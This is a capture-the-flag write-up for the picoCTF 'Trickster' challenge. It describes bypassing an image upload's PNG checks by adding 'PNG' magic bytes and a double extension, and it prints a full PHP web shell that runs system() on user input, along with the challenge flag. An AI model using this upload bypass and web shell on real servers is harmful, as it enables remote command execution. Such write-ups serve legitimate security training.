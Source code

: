 ```
# Trickster

I found a web app that can help process images: PNG images only!
```

The annoying part here is that there's no lead to any hint. The way I proceed is to randomly open a route.

Probably robots.txt? Yep.

![](1.png)

Let's see that 'instructions'

Key points:

    * look for ".png" extension
    * magic bytes match

Easy. Create a PHP script to make a shell. But before saving, add `PNG` word at the beginning of file to trick the app.

```php
PNG
<?php
// WARNING: For CTF / local lab use ONLY. This is extremely insecure.
if (isset($_POST['cmd'])) {
    $command = $_POST['cmd'];

    echo "<pre>";
    // Executes shell command and outputs result
    system($command);
    echo "</pre>";
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>CTF Command Box</title>
</head>
<body>
    <h2>Command Execution Box</h2>
    <form method="POST">
        <input type="text" name="cmd" placeholder="Enter shell command" size="50">
        <button type="submit">Run</button>
    </form>
</body>
</html>
```

And don't forget to add `.png` extension in the file name. To make it a PHP script executable by the app, name it as `shell2.png.php` or something.

And... what? Upload it dawg.

![](4.png)

How about we navigate to the uploaded file? Probably...

![](5.png)

Ez. The rest is yours.

![](6.png)

Flag:

```
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_03d1d548}
```

